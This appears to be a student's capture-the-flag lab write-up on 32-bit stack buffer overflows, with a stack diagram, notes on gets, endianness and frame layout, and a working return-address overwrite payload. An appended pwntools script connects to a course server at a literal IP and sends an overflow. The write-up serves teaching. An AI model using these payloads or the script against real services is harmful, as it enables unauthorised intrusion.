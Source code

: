 ```bash
High Addr
           func                             target_code
                                        /                 \
                                       +-------------------+
                                       |       arg2        |  (4 bytes
                                       +-------------------+
                                       |       arg1        |  (4 bytes
                                       +-------------------+
     /                 \               | fake RetA of tarC |  (4 bytes
    +-------------------+  -  -  -  -  +-------------------+
    |  RetAddr of func  |  (4 bytes    |  Prev Frame Addr  |  (4 bytes
    +-------------------+  -  -  -  -  +-------------------+  <-- ebp after tarCs push ebp
    |  Prev Frame Addr  |  (4 bytes    |                   |
    +-------------------+  <-- ebp     |      ......       |
    |                   |     ↑        |                   |
    |      ......       |     8
    |                   |     ↓
    +-------------------+  0xffffd510
    |                   |     ↑
    |    buffer[0:19]   |     20
    |                   |     ↓
    +-------------------+  0xffffd4fc
     \                 /
Low Addr
```

The branch of `target_code` part is same as bof-boy, and the insertion of argv is almost the same, still mention the LSB rule, the payload is `'\0' * 32 + '\x16\x85\x04\x08' + '\0' * 4 + '\xbb\xbb\xaa\xaa' + '\xdd\xdd\xcc\xcc'`, where 4 bytes are between the location of return address of `func` and the arguments of `target_code`, here I use 4 '\\0's to fill it.

<img src="assets/image-20210330154809140.png" style="zoom: 50%;" />

# Problem

1. 在baby的时候不小心recompile了文件然后变量在栈中的顺序变成了`&p1 < &p2 < str`，没法overflow，发现i386和amd64下编译出来的可执行文件中对于这三个变量的排布是不同的
2. gets不会读\\n，read会，且gets会填充\'\\0\'
3. 地址作为字节流输入要注意大小端
4. again中，由于`target_code`的调用是直接用的`func`的`ret`，因此少了一个push return address的过程，所以栈会高4个字节

# Appendix

## crack-baby.py

```python
from pwn import *

# context.log_level = 'DEBUG'

conn = remote("47.99.80.189", 10001)
conn.recvuntil("ID:\n")
conn.sendline("3180103012")

conn.recvuntil("Tell me something, less than 50 characters:\n")

conn.sendline('\0' * 51)

conn.interactive()
```
